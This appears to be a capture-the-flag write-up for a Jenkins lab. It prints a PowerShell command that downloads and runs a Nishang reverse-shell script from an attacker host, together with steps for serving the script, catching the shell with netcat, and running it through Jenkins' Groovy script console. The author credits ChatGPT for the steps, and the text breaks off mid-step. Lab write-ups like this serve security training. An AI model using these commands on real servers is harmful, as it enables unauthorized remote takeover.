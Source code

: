 - # Post Exploitation
    
    Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it: *powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port*
    
    You first need to download the Powershell script and make it available for the server to download. You can do this by creating an http server with python: *python3 -m http.server*
    
    According to the room instuctions, im suppose to look for something so I can execute commands on the underlying system, so lets look around.
    
    ### Internal Enumeration:
    
    Ok so after poking around a bit on the management console I managed to find a script console that allows me to interact with the underlying system. It’s written in groovy https://groovy-lang.org/ which is a language for interacting with a java platform.
    
    ![image 9](https://github.com/user-attachments/assets/abb11c9a-8936-4ad2-91b7-2ce10b4fe15c)

    
    Going to figure out a way to get one of those nishang reverse shell scripts onto the system and catch it with nc, socat or multi/handler. good thing I have my assistant ChatGPT to give me step by step:
    
    ### **1. Download and Host the PowerShell Script**
    
    - Grab the powershell script they link in the room from Nishang  (`Invoke-PowerShellTcp.ps1`) and save to a local file. Also use chmod +x to make it executable.
    
    **Start a Python HTTP Server:**
    
    - Open a terminal and navigate to the directory or specify the path where the PowerShell script is saved.
    - Run the following command to start an HTTP server that will serve the PowerShell script:
    
    python3 -m http.server 8000
    
    ![image 10](https://github.com/user-attachments/assets/6fa43a75-3e9a-4dde-a22c-5683256adc9f)

    
    - This will start an HTTP server on port 8000 (you can choose a different port if needed). The server will serve files from the current directory.
    
    ### **2. Start a Netcat Listener:**
    
    - Run a Netcat listener on the port you specified (e.g., `4444`): Just dont be an idiot like me and make sure you listen on the correct port otherwise you wont get a connection.
    
    ![image 11](https://github.com/user-attachments/assets/c808c85b-0ac0-4ce8-91b7-449b8ade8708)

    
    ### **3. Upload & run the script on the Jenkins Server**
    
    1. **Find the Script Console by navigating to Manage Jenkins** > **Script Console**.
    2. **Execute a Command to Download and Run the Script:**
        - In the script console, you can use Groovy code to download and execute the PowerShell script they give you in the room (note: simply copying and pasting the script into the console will not work, since its not in groovy). Replace `your-ip` and `your-port` with your local IP address and the port on which your HTTP server is running (e.g., `8000`) and the secondary port field where netcat is listening (e.g., 4444).
        